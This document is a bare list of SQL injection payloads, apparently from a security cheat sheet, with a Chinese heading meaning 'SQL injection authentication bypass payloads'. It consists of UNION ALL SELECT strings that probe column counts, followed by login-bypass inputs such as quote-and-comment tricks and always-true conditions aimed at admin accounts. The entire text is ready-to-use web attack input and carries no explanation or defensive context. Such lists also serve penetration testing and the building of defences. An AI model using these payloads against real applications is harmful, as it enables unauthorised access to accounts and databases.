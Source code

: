 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#

## SQL注入身份验证绕过有效负载

'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='